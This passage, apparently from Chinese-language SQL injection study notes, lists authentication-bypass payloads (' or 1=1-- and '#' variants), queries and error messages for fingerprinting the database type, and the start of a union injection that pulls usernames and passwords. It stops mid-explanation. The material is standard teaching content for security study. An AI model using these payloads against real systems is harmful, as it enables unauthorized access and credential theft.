 

万能密码：对于aspx：' or 1=1--

对于php：'or 1=1#

### 数据库类型判断

1. 根据编程语言

   ASP和.NET:	Microsoft SQL Server，access

   PHP:	MySQL,PostgreSQL

   Java:	Oracle,MySQL

   以上是最常见的搭配

2. 根据数据库报错类型

   ```sql
   and (select count(*) from sysobjects)>0
   and (select count(*) from msyobjects)>0
   ```

   sysobjects 是SQL的内置系统表，在WEB下可读取。

   msyobject是Access的内置系统表，在WEB下不可读取。

   出现如下字眼为Access数据库

   ```
   Microsoft JET Database Engine 错误 '80040e14'
   ```

   如下字眼：MySQL

   ```
   error:You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
   ```

   SQL Server

   ```
   Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
   [Microsoft][ODBC SQL Server Driver][SQL Server]Line 1:
   ```

   ODBC 是Microsoft特有的

   

### 注入方式

#### 1、union注入

```sql
select id,email from member where username='Kevin' union select username,pw from member where id=1;
```

因而我们构造语句:
